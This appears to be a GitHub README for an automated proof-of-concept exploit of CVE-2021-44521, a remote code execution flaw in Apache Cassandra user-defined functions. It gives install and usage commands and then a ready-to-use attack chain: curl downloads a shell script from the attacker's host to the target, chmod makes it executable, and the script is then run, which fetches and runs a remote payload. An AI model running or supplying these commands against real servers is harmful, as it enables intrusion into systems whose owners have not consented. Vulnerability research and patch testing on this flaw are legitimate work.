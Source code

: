 # CVE-2021-44521
Automated PoC of CVE-2021-44521
Credits to original poc: https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/
# Requirements
Cassandra-driver
```bash
pip3 install cassandra-driver
```
# Usage
```bash
python3 poc.py <ip> <cmd>
```
Note that you can't do more command at a time, neither use pipes as of yet.
So run 
```bash
pyhon3 poc.py <ip> "curl http://<your-ip>/shell.sh -o /tmp/shell.sh"
python3 poc.py <ip> "chmod +x /tmp/shell.sh"
python3 poc.py <ip> "/tmp/shell.sh"
```
